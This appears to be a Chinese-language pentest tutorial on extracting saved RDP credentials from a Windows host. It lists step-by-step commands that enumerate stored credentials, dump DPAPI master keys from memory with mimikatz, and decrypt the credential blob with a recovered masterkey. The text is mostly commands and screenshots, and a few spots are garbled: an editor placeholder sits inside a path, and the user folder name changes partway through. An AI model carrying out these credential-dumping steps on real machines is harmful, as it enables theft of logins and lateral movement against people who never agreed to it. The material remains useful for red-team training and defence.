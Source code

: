 **1. 查看当前服务器历史记录**

```
#查看rdp连接历史记录
cmdkey /list
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGESBAwTUXChQobybredScdAJBmTO904RDZ1vkS2TicaZhhPBAhmJdMMHg/640?wx_fmt=png)  

**2. 查找保存在本地的认证，得到对应路径以及值**

```
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEdZorqZPgxKJMeicwq0uNSPQLmWJcMMOZnKqBqm4qmqXlg7tLVkQwxxw/640?wx_fmt=png)

得到：

```
C:**加粗样式**\Users\admin\AppData\Local\Microsoft\Credentials\1F914B4D8F36DFD93C3A37B7D5491363
```

```
mimikatz 
dpapi::cred /in:C:\Users\MIN\AppData\Local\Microsoft\Credentials\1F914B4D8F36DFD93C3A37B7D5491363
```

**3. 运行 mimikaz，获取 guidMasterKey**  

```
mimikatz.exe ""privilege::debug"" ""sekurlsa::dpapi full"" exit >> c:\log.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEskCeBc7MhYyrSB8k4DMEglGz1ZdNzh3gp69HU5iaPleaZrtN9WyyARA/640?wx_fmt=png)

接下来需要使用的是 guidMasterKey、pbData 数据。pbData 是凭据的加密数据，guidMasterKey 是凭据的 GUID。  
**4. 获取 MasterKey**  
根据目标凭据 GUID 找到其关联的 MasterKey，这个 MasterKey 就是加密凭据的密钥，即解密 pbData 所必须的东西。  

```
dpapi::cred /in:C:\Users\admin\AppData\Local\Microsoft\Credentials\1F914B4D8F36DFD93C3A37B7D5491363/masterkey:3d5c95de7ccd3a1d468efd0d90a42330cdcf06d0e7ee834a443907384a6b25dab8d8ab32c8c9540605711d689304ecab949e168719551d2423498168f7fec6ac
```

根据 guid 获取到 masterkey

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEu95f1WUwibzl5ZU2Ve2xDeKkJ2vdP3X0I1p0n3jxhnFBHNN13vtgzeg/640?wx_fmt=png)

**5.mimikatz 破解密码**

```
dpapi::cred /in:C:\Users\admin\AppData\Local\Microsoft\Credentials\1F914B4D8F36DFD93C3A37B7D5491363/masterkey:3d5c95de7ccd3a1d468efd0d90a42330cdcf06d0e7ee834a443907384a6b25dab8d8ab32c8c9540605711d689304ecab949e168719551d2423498168f7fec6ac
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)